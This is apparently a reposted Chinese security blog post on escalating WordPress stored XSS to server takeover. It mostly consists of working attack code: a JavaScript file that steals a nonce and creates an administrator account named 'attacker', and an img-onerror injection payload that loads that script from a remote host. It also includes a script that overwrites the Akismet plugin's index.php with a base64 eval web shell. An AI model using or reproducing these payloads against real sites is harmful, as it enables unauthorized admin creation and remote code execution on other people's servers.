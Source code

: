 # （从xss到getshell） xss的深层次利用与探讨

> 原文：[https://www.zhihuifly.com/t/topic/3270](https://www.zhihuifly.com/t/topic/3270)

# （从xss到getshell） xss的深层次利用与探讨

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

## 通过js文件添加wp系统管理员

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin [.] js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“ attacker”，密码为“ attacker”。

```
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and create a new user with an arbitrary username / password, as an Administrator

var params = “[action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com](mailto:action=createuser&_wpnonce_create-user=%22+nonce+%22&user_login=attacker&email=attacker@site.com)&pass1=attacker&pass2=attacker&role=administrator”;

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

然后，攻击者可以使用以下PoC插入JavaScript。

```
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;” 
```

### 图1.插入XSS代码以添加管理员帐户

![image](img/97ceaf33f091c57249f5bac277b01c95.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

### 图2\. XSS代码被执行

![image](img/a9c6006dc97746273d6edc47e7eb9bf3.png)

### 图3\. XSS代码创建的具有管理员权限的“攻击者”帐户

![image](img/18854193a8135c45a3969739dad7d9be.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![image](img/643e2f2cc70e08b3ae62893f603f0edc.png)

图5.控制Web服务器

![image](img/d929883375e2106e48ef99b1b0f7340f.png)

### 2、恶意命令执行

```
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and update the content of the file ‘akismet/index.php’ with our tiny web shell

var params = “_wpnonce=”+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST[‘x’]));&action=update&file=akismet/index.php"

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

一旦此XSS被管理用户触发，我们应该能够通过向脚本

http://0-sec.org/wp-content/plugins/akismet/index.php

发送GET / POST请求来执行任意PHP代码，其中参数“ x”等于我们的PHP代码的“ base64_encode”。